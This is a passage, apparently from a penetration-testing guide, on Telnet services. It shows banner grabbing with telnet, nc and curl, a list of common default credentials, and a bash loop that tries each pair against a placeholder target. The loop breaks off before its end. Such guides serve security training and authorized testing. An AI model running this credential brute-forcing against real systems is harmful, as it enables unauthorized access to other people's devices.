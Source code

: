 ### Step 2: Information Gathering

#### System Information Extraction
```bash
# Connect and gather pre-auth information
telnet <target-ip>
# Note the login banner for OS identification
# Press Ctrl+] then 'quit' to exit without attempting login
```

#### Service Fingerprinting
```bash
# Extended banner grabbing
echo "" | nc -w 5 <target-ip> 23

# Using curl for banner
curl -m 10 telnet://<target-ip>:23
```

---

## 💥 Exploitation Workflow

### Method 1: Default Credential Testing

#### Common Default Credentials
```bash
# Test common username/password combinations
telnet <target-ip>

# Common combinations to try:
# admin:admin
# admin:password
# admin:123456
# root:root
# root:toor
# root:password
# user:user
# guest:guest
# admin:(blank)
# root:(blank)
```

#### Automated Default Credential Testing
```bash
# Create credential list
cat > creds.txt << EOF
admin:admin
admin:password
admin:123456
root:root
root:toor
root:password
user:user
guest:guest
administrator:administrator
EOF

# Manual testing script
#!/bin/bash
while IFS=: read -r username password; do
    echo "Testing $username:$password"
    (echo "$username"; sleep 1; echo "$password"; sleep 2) | telnet <target-ip> 23
    sleep 3
```